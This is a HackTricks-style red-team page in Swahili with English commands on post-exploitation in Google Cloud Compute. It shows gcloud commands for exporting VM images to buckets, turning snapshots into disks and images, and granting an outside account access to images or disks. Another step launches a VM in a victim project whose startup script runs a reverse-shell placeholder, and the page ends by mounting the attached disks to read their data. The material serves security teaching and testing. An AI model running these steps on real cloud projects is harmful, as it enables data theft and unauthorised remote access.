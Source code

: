 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (Networking) angalia:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

Hii itamruhusu mshambuliaji **kupata data iliyomo ndani ya picha zilizopo tayari** au **kuunda picha mpya za VMs zinazofanya kazi** na kupata data zao bila kuwa na ufikiaji wa VM inayofanya kazi.

Inawezekana kusafirisha picha ya VM kwenye bucket kisha kuipakua na kuimount locally kwa amri: 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Ili kutekeleza hatua hii, mshambuliaji anaweza kuhitaji mamlaka juu ya hifadhi ya uhifadhi na kwa hakika **mamlaka juu ya cloudbuild** kwani ndiyo **huduma** itakayohitajika kutekeleza usafirishaji.\
Zaidi ya hayo, ili hii ifanye kazi, SA ya codebuild na SA ya compute zinahitaji ruhusa za mamlaka.\
SA ya cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` inahitaji:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Na SA `<project-id>-compute@developer.gserviceaccount.com` inahitaji:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Usafirishaji & Ukaguzi wa Snapshots & Diski kwa ndani

Haiwezekani kusafirisha moja kwa moja snapshots na diski, lakini inawezekana **kubadilisha snapshot kuwa diski, diski kuwa picha** na kufuata **sehemu ya awali**, kusafirisha picha hiyo ili kuikagua kwa ndani.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Kagua Picha inayounda VM

Kwa lengo la kufikia **data iliyohifadhiwa katika picha** au ndani ya **VM inayotembea** kutoka mahali ambapo mshambuliaji **ameunda picha,** inawezekana kutoa akaunti ya nje ruhusa juu ya picha:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
na kisha uunde VM mpya kutoka kwake:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ikiwa huwezi kutoa ufikiaji wa akaunti yako ya nje kupitia picha, unaweza kuzindua VM ukitumia picha hiyo katika mradi wa mwathirika na **kufanya metadata itekeleze shell ya kinyume** ili kufikia picha hiyo kwa kuongeza param:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Kwa lengo la kufikia **data iliyohifadhiwa kwenye diski au snapshot, unaweza kubadilisha snapshot kuwa diski, diski kuwa picha na kufuata hatua za awali.**

Au unaweza **kutoa akaunti ya nje ruhusa** juu ya diski (ikiwa hatua ya kuanzia ni snapshot toa ruhusa juu ya snapshot au unda diski kutoka kwake):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Unganisha diski** kwa mfano:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH ndani ya VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Tambua Disk**: Mara tu ndani ya VM, tambua disk mpya kwa kuorodhesha vifaa vya disk. Kwa kawaida, unaweza kuipata kama `/dev/sdb`, `/dev/sdc`, n.k.
3. **Fanya Format na Mount Disk** (ikiwa ni disk mpya au raw):
*   Unda mahali pa ku-mount:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ikiwa huwezi kutoa ufikiaji kwa mradi wa nje kwa snapshot au disk, huenda ukahitaji kufanya hatua hizi ndani ya instance katika mradi sawa na snapshot/disk.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
